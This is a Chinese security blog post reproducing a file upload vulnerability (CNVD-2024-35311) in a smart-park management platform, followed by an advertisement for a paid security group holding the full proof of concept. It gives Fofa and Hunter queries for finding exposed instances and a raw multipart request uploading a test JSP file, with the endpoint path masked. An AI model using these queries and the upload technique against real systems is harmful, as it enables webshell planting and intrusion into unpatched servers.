 #  【0day漏洞复现】某华智慧园区综合管理平台文件上传漏洞(CNVD2024-35311)   
如棠安全  如棠安全   2025-05-14 00:10  
  
> ❝  
> **「此公众号所分享的网络安全知识、信息及工具仅供学习和研究使用，不得用于非法活动。此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！」****「如有内容侵权，请联系我们删除处理。谢谢合作！！！」**  
> ❞  
  
#   
# 资产测绘  
- **「Hunter」**  
  
> ❝  
> web.body="智慧园区综合管理平台"  
> ❞  
  
- **「Fofa」**  
  
> ❝  
> body="智慧园区综合管理平台"  
> ❞  
  
  
  
  
审计发现漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TD3MkpUYahr6eZopbuNYVaWosawRKrgXMoU2fGxrNPCBsHT0xPE21tCdTdibYEklxg9sV6I1MIK6QNuKWCdZQbw/640?wx_fmt=png&from=appmsg "")  
#   
#   
# 漏洞复现  
  
**「1、构造数据包」**  
```
POST /XXXXX/XXXXXXXXXXX HTTP/1.1Host:192.168.10.1:9443User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15Accept-Encoding: gzip, deflateConnection: keep-aliveContent-Type: multipart/form-data;boundary=----WebKitFormBoundary7MA4YWxkTrZu0gWContent-Length: 336   ------WebKitFormBoundary7MA4YWxkTrZu0gWContent-Disposition: form-data; name="updateBean.loadCab"; filename="abc.jsp"Content-Type: text/plain    <% out.print("ceshi");%>------WebKitFormBoundary7MA4YWxkTrZu0gWContent-Disposition: form-data; name="updateBean.loadCabFileName"    abc.jsp------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TD3MkpUYahr6eZopbuNYVaWosawRKrgXB8kovzvrTOhSupcVSib0n51BqmpUsz5NdM1KrIw2J9micRZ2gZ4joibaA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**「2、查看上传的文件」**  
```
GET /portal/20250513XXXXXXXXX.jsp HTTP/1.1Host: 192.168.10.1:9443
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TD3MkpUYahr6eZopbuNYVaWosawRKrgXnrxZjc7QTLl7TyIwlPXtADHMWYQg8ib1ayn0SlRXbnZwVFtXDIfT8Kw/640?wx_fmt=jpeg "")  
  
#   
# 完整POC获取  
  
文章中涉及的完整POC及代码审计报告已上传至纷传圈子中  
  
需要的师傅可以自取哈  
  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TD3MkpUYahr6eZopbuNYVaWosawRKrgX8AMr0Xko4gtLYwicxiaQ3rbwTiaCTaIjiawBruuEDWFeZ45NX2MbOCKejA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
